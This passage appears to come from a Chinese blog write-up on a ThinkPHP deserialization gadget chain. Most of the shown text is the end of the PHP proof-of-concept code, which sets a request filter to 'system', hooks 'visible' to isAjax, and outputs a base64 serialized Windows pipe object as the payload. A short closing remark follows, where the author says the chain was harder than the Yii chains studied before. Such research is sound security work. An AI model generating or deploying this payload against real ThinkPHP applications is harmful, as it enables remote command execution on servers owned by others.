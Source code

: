             	// 兼容PATH_INFO获取
            	'pathinfo_fetch'   => ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
            	// 默认全局过滤方法 用逗号分隔多个
            	'default_filter'   => '',
            	// 域名根，如thinkphp.cn
            	'url_domain_root'  => '',
            	// HTTPS代理标识
            	'https_agent_name' => '',
            	// IP代理获取标识
            	'http_agent_ip'    => 'HTTP_X_REAL_IP',
            	// URL伪静态后缀
            	'url_html_suffix'  => 'html',
        	];
        	public function __construct(){
            	$this->hook['visible']=[$this,'isAjax'];
            	$this->filter="system";
        	}
    	}
	}
	namespace{

    	use think\process\pipes\Windows;

    	echo base64_encode(serialize(new Windows()));
	}



![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210927211149.png)

总结：这条链是tp第一条完全自己想了一遍的。难度确实比之前看的yii那些都高，不过收获很大。
